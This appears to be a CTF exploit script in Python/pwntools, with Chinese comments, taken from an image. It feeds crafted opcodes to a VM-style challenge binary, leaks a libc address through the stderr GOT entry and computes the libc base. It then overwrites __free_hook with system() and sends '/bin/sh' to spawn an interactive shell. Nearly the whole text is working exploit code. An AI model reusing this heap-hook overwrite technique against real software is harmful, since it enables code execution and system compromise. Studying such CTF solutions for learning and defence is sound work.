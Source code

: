 ```python
p.recvuntil("PC: ")
p.sendline('0')
p.recvuntil("SP: ")
p.sendline('1')
p.recvuntil("CODE SIZE: ")
p.sendline('24')
p.recvuntil("CODE: ")

# 将stderr_got表里存的_IO_2_1_stderr的地址转递给reg[3]reg[2]
sl(opcode(0x10, 0, 0, 26)) #reg[0] = -26
sl(opcode(0x80, 1, 1, 0)) #reg[1] = -26
sl(opcode(0x30, 2, 0, 1)) #reg[2] = memory[reg[1]]
sl(opcode(0x10, 0, 0, 25)) #reg[0] = 25
sl(opcode(0x10, 1, 0, 0)) #reg[1] = 0
sl(opcode(0x80, 1, 1, 0)) #reg[1] = -25
sl(opcode(0x30, 3, 0, 1)) #reg[3] = memory[reg[1]]

# reg[4]构造一个0x10a0，给reg[2]加上，即_IO_2_1_stderr+0x10a0=free_hook-8
sl(opcode(0x10, 4, 0, 1)) #reg[4] = 1
sl(opcode(0x10, 5, 0, 12)) #reg[5] = 12
sl(opcode(0xc0, 4, 4, 5)) #reg[4] = 1<<12 = 1000
sl(opcode(0x10, 5, 0, 0xa)) #reg[5] = 0xa
sl(opcode(0x10, 6, 0, 4)) #reg[6] = 4
sl(opcode(0xc0, 5, 5, 6)) #reg[5] = 0xa0
sl(opcode(0x70, 4, 4, 5)) #reg[4] = reg[4]+reg[5] = 0x10a0
sl(opcode(0x70, 2, 4, 2)) #reg[2] = reg[4]+reg[2]

# 将comment改为free_hook-8
sl(opcode(0x10, 4, 0, 8)) #reg[4] = 8
sl(opcode(0x10, 1, 0, 0)) #reg[1] = 0
sl(opcode(0x80, 1, 1, 4)) #reg[1] = 0-8 = -8
sl(opcode(0x40, 2, 0, 1)) #memory[reg[1] = reg[2]]
sl(opcode(0x10, 5, 0, 7)) #reg[5] = 7
sl(opcode(0x10, 1, 0, 0)) #reg[1] = 0
sl(opcode(0x80, 1, 1, 5)) #reg[1] = reg[1] - reg[4] = -7
sl(opcode(0x40, 3, 0, 1)) #memory[reg[1]] = reg[3]
sl(opcode(0xe0, 0, 0, 0)) #exit

ru('R2: ')
low = int(r(8), 16) + 8
ru('R3: ')
high = int(r(4), 16)
print hex(low), hex(high)
libc_base = (high<<32) + low - libc.sym['__free_hook']
lg('libc_base', libc_base)
system = libc_base + libc.sym['system']

# 读入comment，修改到free_hook
sl('/bin/sh\x00'+p64(system))
p.interactive()
```
